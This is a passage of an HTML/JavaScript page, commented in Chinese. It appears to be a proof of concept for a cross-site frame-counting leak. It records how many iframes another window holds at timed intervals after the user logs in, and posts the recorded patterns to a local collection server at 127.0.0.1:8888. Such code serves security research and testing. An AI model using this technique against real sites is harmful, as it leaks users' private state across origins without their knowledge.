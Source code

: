 ~~~js
        }, 6 * 1000);
      }

      //36秒后等待用户登录后再记录iframe
      setTimeout(thirdOpen,36 * 1000);
      function thirdOpen(){
        var pattern3 = [];
        // In a loop, register the number of iframes at 60ms interval
        var recorder = setInterval(() => {
          pattern3.push(win.length)
        }, 60);
  
        // Break the loop after 42 seconds
        setTimeout(() => {
           clearInterval(recorder);
           console.log("The pattern3 is:", pattern3.join(', '));
        }, 6 * 1000);
      }
    </script>

    <!--打印读取页面iframe数-->
    <div class="sm-item" id="data">
    </div>
    <input type="submit" value="submit" onclick="submit()">
    <p id="result"></p>

    <script>
      //将控制台内容打印在div,pre内（打印在页面上）
      (function () {
        var old = console.log;
        var logger = document.getElementById('data');
        console.log = function () {
          for (var i = 0; i < arguments.length; i++) {
            if (typeof arguments[i] == 'object') {
                logger.innerHTML += (JSON && JSON.stringify ? JSON.stringify(arguments[i], undefined, 2) : arguments[i]) + '<br />';
            } else {
                logger.innerHTML += arguments[i] + '<br />';
            }
          }
        }
    })();
    </script>
    
    <script type="text/javascript">
        function submit(){
          //发送ajax请求

          var data = document.getElementById('data').innerHTML;
          var ajax = new XMLHttpRequest();

          ajax.open('post','http://127.0.0.1:8888/test.json',true)
          ajax.send(data)

          ajax.onreadystatechange = function(){
            if(ajax.readyState ==4 && ajax.status ==200){
                //本次请求成功
                document.getElementById("result").innerHTML = "sucesss" 
            }else{
                //本次请求失败
                document.getElementById("result").innerHTML = "fail" 
            }
          }
~~~